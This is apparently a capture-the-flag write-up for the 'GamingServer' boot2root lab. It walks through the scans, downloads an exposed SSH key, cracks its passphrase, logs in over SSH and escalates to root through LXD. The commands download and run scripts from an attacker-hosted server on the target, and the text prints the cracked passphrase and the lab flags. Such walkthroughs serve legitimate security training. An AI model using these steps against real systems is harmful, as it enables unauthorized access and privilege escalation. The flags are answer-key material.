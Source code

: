 # GamingServer

An Easy Boot2Root box for beginners

Connect with server and start.

We start with RECON

1. Port Scanning
```
rustscan -a 10.10.174.135 -r 1-65535 --ulimit 5000 -- -sV -T4 -oN rustscan_nmap.txt
```
Result
```
[~] The config file is expected to be at "/home/srishti/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 10.10.174.135:22
Open 10.10.174.135:80
[~] Starting Script(s)
[>] Running script "nmap -vvv -p {{port}} -{{ipversion}} {{ip}} -sV -T4 -oN rustscan_nmap.txt" on ip 10.10.174.135
Depending on the complexity of the script, results may take some time to appear.
[~] Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-03 20:21 IST
NSE: Loaded 47 scripts for scanning.
Initiating Ping Scan at 20:21
Scanning 10.10.174.135 [4 ports]
Completed Ping Scan at 20:21, 0.21s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 20:21
Completed Parallel DNS resolution of 1 host. at 20:21, 0.00s elapsed
DNS resolution of 1 IPs took 0.01s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating SYN Stealth Scan at 20:21
Scanning 10.10.174.135 [2 ports]
Discovered open port 22/tcp on 10.10.174.135
Discovered open port 80/tcp on 10.10.174.135
Completed SYN Stealth Scan at 20:21, 0.24s elapsed (2 total ports)
Initiating Service scan at 20:21
Scanning 2 services on 10.10.174.135
Completed Service scan at 20:21, 6.49s elapsed (2 services on 1 host)
NSE: Script scanning 10.10.174.135.
NSE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 20:21
Completed NSE at 20:21, 0.86s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 20:21
Completed NSE at 20:21, 0.83s elapsed
Nmap scan report for 10.10.174.135
Host is up, received timestamp-reply ttl 60 (0.19s latency).
Scanned at 2025-07-03 20:21:12 IST for 8s

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 60 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 60 Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.92 seconds
           Raw packets sent: 6 (240B) | Rcvd: 3 (128B)

```
So two ports are open port 22 and port 80

2. Website recon
We go to the website at port 80 and it shows us a webpage.

Will hit the Ctrl+U to view the source page.

So, in comment we saw a comment which talking to John. So, maybe it is a username.

We also have many options to go.
When we click on the Draagon lore and we get the upload option.
When we click it, it takes us to the upload directory which have following directories.

 We have a directory which include the password, so we save it on the pc.
 ```
 wget "http://10.10.174.135/uploads/dict.lst"
```

3. Directory Search
```
 gobuster dir -u http://10.10.174.135/ -w /usr/share/wordlists/rockyou.txt
```
We found the directory \secret

We have a secret key
RSA key

```
wget "http://10.10.174.135/secret/secretKey"
```
Run the command to make key accessible
```
chmod 600 secretKey
```
In our rustscan, we see there is ssh open

Now we have potential username, password and key

We can try ssh into the machine.

And the key need a passphrase
So, we have password list we will use john the ripper

```
ssh2john secretKey > john.txt
```
```
john john.txt --wordlist=dict.lst
```

And we get the password - `letmein`

So we start the ssh

```
ssh -i secretKey john@10.10.174.135
Enter passphrase for key 'secretKey': 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-76-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu Jul  3 16:12:39 UTC 2025

  System load:  0.0               Processes:           105
  Usage of /:   41.1% of 9.78GB   Users logged in:     0
  Memory usage: 17%               IP address for ens5: 10.10.174.135
  Swap usage:   0%


0 packages can be updated.
0 updates are security updates.


Last login: Mon Jul 27 20:17:26 2020 from 10.8.5.10
john@exploitable:~$ ls
user.txt
john@exploitable:~$ cat user.txt
a5c2ff8b9c2e3d4fe9d4ff2f1a5a6e7e

```
And we get the first user flag here

What is the user flag?
`a5c2ff8b9c2e3d4fe9d4ff2f1a5a6e7e`

Now we can do the further enumeration

We run the linpeas in the server to find vulnerabities anf find their is lxd vulnerability.
On attacker terminal
```
cd /usr/share/peass/linpeas
python3 -m http.server 8000
```
On target
```
cd /dev/shm
wget http://<your-IP>:8000/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh | tee linlog.txt
```
Now we know there is lxd vulnerabilites

On attacker terminal
```
git clone "https://github.com/saghul/lxd-alpine-builder/"
cd lxd-alpine-builder/
./build-alpine
python3 -m http.server
```
0n target terminal 
```
wget "http://<your-ip>:8000/alpine-v3.13-x86_64-20210218_0139.tar.gz"
wget "http://<your-ip>:8000/lxc_privesc.sh"
chmod +x lxc_privesc.sh
./lxc_privesc.sh -f alpine-v3.13-x86_64-20210218_0139.tar.gz
```
And we get the root access
```
ls
whoami
pwd
ls
cd home
ls -la
cd /mnt
ls
cd root
cat root.txt
2e337b8c9f3aff0c2b3e8d4e6a7c88fc
```
What is the root flag?
`2e337b8c9f3aff0c2b3e8d4e6a7c88fc`















